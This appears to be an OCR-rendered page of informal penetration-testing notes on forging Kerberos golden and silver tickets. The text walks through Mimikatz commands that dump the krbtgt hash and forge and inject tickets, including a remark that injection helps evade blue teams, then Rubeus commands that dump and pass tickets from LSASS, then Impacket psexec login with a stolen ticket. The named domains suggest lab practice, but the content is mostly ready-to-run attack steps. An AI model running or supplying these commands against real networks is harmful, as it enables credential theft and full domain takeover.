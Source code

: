> lsadump::lsa /inject /name:krbtgt   ( To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.)

4. creating our ticket


> Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id: (to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and id of account in /id:)

This all is found in previous steps:
specify sid value in /sid:
specify ntlm hash in /krbtgt:
specify id number in /id:

We can also specify /ptt at the end of above command and the ticket will be injected rightaway in our session. This can be stealthy as Blueteams can detect the kirbi ticket being made


5. NOw type following command to open prompt with privileges of the created golden or silver tickets

> misc::cmd



- using Rubeus (Rubeus will dump all the tickets,we will ourselves select high privilege ticket like krbtgt or admin ticket and create a golden or silver ticket)

1. First we need to be a user of administrator group for this attack

2. We run following command to dump all the tickets from lsaas

> rubues.exe dump

3. Now we need to look for Admin users or any users which have krbtgt service access meaning they are kerberos service accounts and if we are succesful the whole domain can be compromised

3. We can now will now add the contennts of the ticket to be compromised in a file using powershell

> [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("BASE64TICKETCONTENTS"))

4. Now a file named ticket.kirbi is made and we can now inject this ticket into memory to impersonate as the ticket owner	
 
> .\Rubeus.exe ptt /ticket:ticket.kirbi

5. NOw we have priveleges of the user same as whse ticket we just exploited



- Remote sessions with injected golden tickets (Optional)

Using above techniques we can get a ticket and then we can transfer to our machine and convert it into linux compatible format (ccache)

1. THen we export the ticket in a anve variable used by imapacket

> export KRB5CCNAME=ticket.ccache  

2. Now connect to the machine using ps exec

> python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
